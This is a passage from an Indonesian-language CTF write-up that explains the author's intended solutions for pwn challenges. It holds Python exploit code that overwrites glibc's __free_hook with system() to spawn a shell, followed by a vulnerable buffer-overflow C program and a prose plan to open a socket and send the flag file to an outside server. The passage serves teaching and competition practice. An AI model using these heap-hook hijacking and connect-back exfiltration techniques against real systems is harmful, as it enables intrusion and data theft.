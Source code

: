 Request `malloc` kedua setelah ini seharunya sudah mendarat di `__free_hook`, tapi karena `create()` itu sendiri melakukan 2 request `malloc`, untuk `.prog` dan `.data`, maka `.data`\-lah yang akan mendarat di `__free_hook`. Berbeda dengan sebelumnya dimana kita bisa memanfaatkan value yang ditambahkan melalui input karena berada di `.prog`, kali ini `.data` hanya bisa memanfaatkan aritmatiknya saja tanpa arbitrary data melalui user input.

```py
payload  = get_min((libc.sym['system'] >>  0) & 0xff)
payload += get_min((libc.sym['system'] >>  8) & 0xff)
payload += get_min((libc.sym['system'] >> 16) & 0xff)
payload += get_min((libc.sym['system'] >> 24) & 0xff)
payload += get_min((libc.sym['system'] >> 32) & 0xff)
payload += get_min((libc.sym['system'] >> 40) & 0xff)
create(payload) # 4
run(4)
# pwndbg> tel &__free_hook
# 00:0000│   0x1555555238e8 (__free_hook) —▸ 0x1555553b2e60 (system) ◂— test   rdi, rdi
# 01:0008│   0x1555555238f0 (__malloc_initialize_hook@GLIBC_2.2.5) ◂— 0x0
```

dengan begitu, `delete(2)` seharusnya sudah memberikan shell, karena tadi sudah `create("/bin/sh")` pada index 2 dan `__free_hook` sudah menunjuk kepada `system`

```py
# profit
delete(2)
```

## ezrop revenge

Soal ini ada kaitannya dengan `ezrop` pada [kualifikasi](/blog/hacktoday-2019-quals-pwn/#ezrop), dengan twist closed std{in,out,err}, static binary, x86, dengan EBP yang sudah di-_poison_ seperti yang saya tulis [sebelumnya](/blog/hacktoday-2019-quals-pwn/#ezrop). Kalau dipikir lagi ini sebenarnya tidak menambahkan hal baru selain closed I/O, sehingga pada akhirnya saya membuat soal ini dengan buffer overflow biasa tanpa tambahan kerumitan lainnya. Kurang lebih seperti ini kodenya,

```c
#include <unistd.h>

int main() {
    char buf[...];
    write(1, "no view(), no surrender!\n", ...);
    read(0, buf, ...);
    close(2);
    close(1);
    close(0);
}
```

closed I/O ini didapat ide dari soal ISITDTU Final, `babyarmv2`, beberapa hari lalu, kudos to orgs.

Intended solution dari soal ini dengan buka socket fd dan connect ke server dan menulis isi file `flag` pada fd tersebut. Sebelum itu semua yang diperlukan adalah arbitrary write primitive dengan `mov [dst], src` dan untungnya terdapat gadget seperti ini pada binary.

